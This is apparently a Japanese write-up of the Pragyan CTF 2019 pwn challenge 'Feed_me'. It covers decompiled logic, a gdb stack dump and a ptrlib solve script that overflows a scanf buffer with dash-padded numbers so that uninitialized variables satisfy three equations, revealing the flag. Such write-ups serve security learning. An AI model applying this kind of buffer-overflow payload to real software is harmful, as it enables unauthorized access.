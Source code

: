 # [pwn 150pts] Feed_me - Pragyan CTF 2019
64ビットバイナリで，PIEやSSPも有効です．
```
$ checksec challenge1
[*] '/home/ptr/writeups/2019/PragyanCTF_2019/feed_me/challenge1'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

~IDAで解析すると処理が面倒そうだったのでGhidraを使います．~
処理の概要は分かりましたが使いにくかったのでIDAで調べます．

最初に乱数を使って何か3つの値を計算し，その結果を表示します．
次にscanfで入力し，その後次のような処理をしています．
```c
char *px, *py;
for(cnt = 0; cnt < strlen(buf); cnt++) {
  if ((buf[cnt] > '/') && (buf[cnt]) <= '9') continue;
  if (buf[cnt] == '-') continue;
  puts("Invalid input :(");
  return 0;
}
int val = atoi(buf);
int x = atoi(px);
int y = atoi(py);
if ((val + x == r1) && (x + y == r2) && (y + val == r3)) {
  fd = fopen("flag.txt", "r");
  fgets(flag, 0x32, fd);
  printf("That's yummy.... Here is your gift:\n%s", flag);
} else {
  fail();
  return 0;
}
```
初期化されていない変数があるようですが，scanfでオーバーフローがあるので自由な値に変更できます．
また，数字と`-`は正しい入力として読み飛ばしてくれます．
gdbで見ると入力バッファと未初期化変数は次のような位置にあります．
```
gdb-peda$ x/32wx $rsp
0x7fffffffda10: 0x00000000      0x00000000      0x00000076      0x00000008
0x7fffffffda20: 0xffffd228      0xffffc47e      0xffffe5e6      0x00a98f1e
0x7fffffffda30: 0xffffdab0      0x00007fff      0xffffdac0      0x00007fff
0x7fffffffda40: 0x31310009      0x32323131      0xf7003232      0x00007fff
0x7fffffffda50: 0x00000076      0x00000000      0x00000000      0x00000000
0x7fffffffda60: 0x00000000      0x00000000      0x00f0b5ff      0x00000000
0x7fffffffda70: 0x00000001      0x00000000      0x55554d3d      0x00005555
0x7fffffffda80: 0xffffdab0      0x00007fff      0x00000000      0x00000000
gdb-peda$ x/4wx $rbp-0x64
0x7fffffffda4c: 0x00007fff      0x00000076      0x00000000      0x00000000
gdb-peda$ x/4wx $rbp-0x5a
0x7fffffffda56: 0x00000000      0x00000000      0x00000000      0x00000000
```
r1からr3は入力より低いアドレスにあるのでオーバーフローする心配はありません．

豆知識ですが，今回のようにsetbufが付いていないバイナリは次のようにすればローカルでもpwntoolsが使えます．
```
$ socat TCP-L:9800,reuseaddr,fork EXEC:"stdbuf -i 0 -o 0 -e 0 ./challenge1"
```

さて，今回の条件式は
```
val + x   = r1   ...1
x   + y   = r2   ...2
y   + val = r3   ...3
```
の3つです．
1式から3式を引くと，
```
x - y = r1 - r3   ...4
```
となります．
さらに2式と4式を足すと，
```
2x = r1 + r2 - r3
```
となります．
したがって，
```
x = (r1 + r2 - r3) / 2
y = r2 - x
val = r1 - x
```
となります．

解答コードは次のようになります．
```python
from ptrlib import *

sock = Socket("127.0.0.1", 9800)

sock.recvline()
r1 = int(sock.recvuntil(" ;").rstrip(b";"))
r2 = int(sock.recvuntil(" ;").rstrip(b";"))
r3 = int(sock.recvuntil(" ;").rstrip(b";"))
dump("(r1, r2, r3) = ({}, {}, {})".format(r1, r2, r3))

x = (r1 + r2 - r3) // 2
y = r2 - x
val = r1 - x

payload1 = str(val)
payload1 += "-" * (10 - len(payload1))
payload2 = str(x)
payload2 += "-" * (10 - len(payload2))
payload3 = str(y)
payload = payload1 + payload2 + payload3

_ = input()
sock.sendline(payload)

sock.interactive()
```

できました．
```
$ python solve.py
[+] Socket: Successfully connected to 127.0.0.1:9800
[ptrlib] (r1, r2, r3) = (-18996, -7850, -17166)

[ptrlib]$ 
That's yummy.... Here is your gift:
pctf{p1zz4_t0pp3d_w1th_p1n34ppl3_s4uc3}
```

# 感想
簡単なオーバーフロー問題ですね．
